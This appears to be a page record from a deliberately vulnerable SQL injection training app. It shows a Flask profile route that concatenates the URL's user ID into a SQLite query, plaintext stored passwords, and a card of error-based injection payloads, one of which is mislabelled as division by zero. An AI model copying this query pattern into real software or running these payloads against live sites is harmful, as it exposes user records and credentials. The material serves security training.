
The app's page /profile/1 with its own data.
### tables this page shows
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL,
    email TEXT,
    role TEXT DEFAULT 'user',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### app.py (the view)
@app.route('/profile/<user_id>')
def profile(user_id):
    db = get_db()
    result = None
    executed_query = None
    error = None
    query = "SELECT * FROM users WHERE id = " + user_id
    executed_query = query
    try:
        result = db.execute(query).fetchone()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('profile.html',
                         result=result,
                         user_id=user_id,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/profile.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">👤 User Profile</span>
        <span class="badge badge-danger">Vulnerable: Error-Based SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This endpoint is vulnerable to <strong>Error-Based SQL Injection</strong>.
        The user ID from the URL is directly concatenated into the query. Malformed input triggers SQL errors.
    </p>
    <div style="display: flex; gap: 12px; margin-bottom: 20px; flex-wrap: wrap;">
        <a href="{{ url_for('profile', user_id='1') }}" class="btn btn-outline">Profile 1</a>
        <a href="{{ url_for('profile', user_id='2') }}" class="btn btn-outline">Profile 2</a>
        <a href="{{ url_for('profile', user_id='3') }}" class="btn btn-outline">Profile 3</a>
        <a href="{{ url_for('profile', user_id="1'") }}" class="btn btn-outline" style="border-color: var(--warning); color: var(--warning);">Test Error (1')</a>
    </div>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
    {% if result %}
    <div class="card" style="background: rgba(88, 166, 255, 0.05);">
        <table class="data-table">
            <tr><td style="width: 120px; color: var(--text-muted);">ID</td><td>{{ result.id }}</td></tr>
            <tr><td style="color: var(--text-muted);">Username</td><td>{{ result.username }}</td></tr>
            <tr><td style="color: var(--text-muted);">Password</td><td><code>{{ result.password }}</code></td></tr>
            <tr><td style="color: var(--text-muted);">Email</td><td>{{ result.email }}</td></tr>
            <tr><td style="color: var(--text-muted);">Role</td><td><span class="badge badge-info">{{ result.role }}</span></td></tr>
            <tr><td style="color: var(--text-muted);">Created</td><td>{{ result.created_at }}</td></tr>
        </table>
    </div>
    {% elif not error %}
        <div class="alert alert-info">No user found with ID: {{ user_id }}</div>
    {% endif %}
</div>
<div class="card">
    <div class="card-header">
        <span class="card-title">💉 Error-Based SQLi Payloads</span>
        <span class="badge badge-warning">Click to copy</span>
    </div>
    <div class="payload">
        <div class="payload-label">Trigger syntax error to reveal query structure</div>
        1'
    </div>
    <div class="payload">
        <div class="payload-label">Column count discovery via UNION error</div>
        1 AND 1=2 UNION SELECT null --
    </div>
    <div class="payload">
        <div class="payload-label">Enumerate tables via error (SQLite)</div>
        1 AND (SELECT CASE WHEN (substr(sql,1,1)='C') THEN 1/0 ELSE 1 END FROM sqlite_master WHERE type='table' LIMIT 1)=1
    </div>
    <div class="payload">
        <div class="payload-label">Trigger division by zero for conditional errors</div>
        1 AND 1=2 UNION SELECT null, null, null, null, null FROM sqlite_master --
    </div>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-warning { background: rgba(240, 136, 62, 0.15); color: var(--warning); border: 1px solid rgba(240, 136, 62, 0.3); }
.badge-info { background: rgba(88, 166, 255, 0.15); color: var(--accent); border: 1px solid rgba(88, 166, 255, 0.3); }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-outline { background: transparent; border: 1px solid var(--border); color: var(--text); }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### records on screen
users: id "1", username "admin", password "admin123", email "admin@sqli-lab.local", role "ADMIN", created_at "2026-05-20 18:46:39"

### other values on screen
{{ executed_query }} "SELECT * FROM users WHERE id = 1"
